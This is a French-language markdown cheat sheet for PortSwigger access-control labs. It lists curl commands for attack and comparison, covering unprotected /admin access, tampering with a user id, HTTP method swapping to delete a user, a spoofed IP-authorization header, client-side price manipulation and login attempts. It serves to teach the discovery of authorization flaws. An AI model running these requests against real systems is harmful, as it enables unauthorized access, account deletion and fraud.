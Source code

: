 # Access control

Voici un tableau synthétique pour l’analyse et la découverte des failles d’**Access Control** (contrôle d’accès) sur les labs PortSwigger, **avec des commandes curl différenciées pour l’attaque et l’analyse** selon chaque cas, des charges utiles neutres, et des explications claires en français :

| Type / Lab                                   | Payload d’attaque neutre (exemple)                | Commande d’attaque (curl)                                                                                  | Commande(s) d’analyse curl                                                                                 | Élément d’analyse (raison préalable)                      | Méthodologie détaillée de découverte                                                                                   | URL PortSwigger ou source utile                                      |
|-----------------------------------------------|---------------------------------------------------|------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------|
| Fonctionnalité admin non protégée             | Accès direct à /admin                             | curl -i "https://LAB/admin"                                                                               | curl -i "https://LAB/"                                                                                     | Accès à une page ou fonctionnalité normalement réservée   | Tentez d’accéder directement à une URL ou une action réservée aux admins sans être authentifié ou avec un compte standard. Si l’accès est accordé, la faille est présente. | https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality |
| Contrôle d’accès basé sur l’ID utilisateur    | Modification d’un paramètre userId                | curl -i "https://LAB/my-account?id=2" --cookie "session=..."                                              | curl -i "https://LAB/my-account?id=1" --cookie "session=..."                                               | Accès ou modification de données d’un autre utilisateur   | Modifiez l’identifiant utilisateur dans l’URL ou les paramètres pour accéder ou modifier les données d’un autre compte. Comparez avec une requête standard. | https://portswigger.net/web-security/access-control/lab-user-id-parameter |
| Contrôle d’accès via méthode HTTP             | Utilisation d’une méthode HTTP non prévue         | curl -X PUT -i "https://LAB/admin/delete?user=carlos" --cookie "session=..."                               | curl -X GET -i "https://LAB/admin/delete?user=carlos" --cookie "session=..."                               | Action critique accessible via une méthode inattendue      | Essayez différentes méthodes HTTP (PUT, DELETE, etc.) sur les endpoints critiques. Si l’action est acceptée, la faille est confirmée. | https://portswigger.net/web-security/access-control/lab-method-based-access-control |
| Contrôle d’accès par entête personnalisé      | Ajout d’un header spécial (ex: X-Custom-IP-Authorization) | curl -i -H "X-Custom-IP-Authorization: 127.0.0.1" "https://LAB/admin"                                      | curl -i "https://LAB/admin"                                                                                | Bypass du contrôle d’accès via un header                  | Ajoutez un header spécifique découvert dans la documentation ou par fuzzing (ex: X-Custom-IP-Authorization). Si l’accès est accordé, la faille est présente. | https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass |
| Contrôle d’accès basé sur la confiance côté client | Modification d’un paramètre caché ou JS           | curl -i -d "product_id=1&price=1" "https://LAB/cart" --cookie "session=..."                               | curl -i -d "product_id=1&price=99" "https://LAB/cart" --cookie "session=..."                               | Modification d’un prix ou d’un paramètre sensible         | Modifiez un paramètre caché ou transmis côté client (ex: prix dans un panier). Comparez la réponse avec la valeur attendue. | https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls |
| Contrôle d’accès avec brute-force ou logique  | Test de workflow ou de limitation                 | curl -i -X POST -d "username=carlos&password=essai" "https://LAB/login"                                   | curl -i -X POST -d "username=wiener&password=peter" "https://LAB/login"                                    | Contournement de limitation ou workflow                   | Testez la logique d’authentification ou de workflow (ex: brute-force, reset, etc.) pour détecter une faille de contrôle d’accès. | https://portswigger.net/web-security/access-control/lab-vertical-privilege-escalation |

---

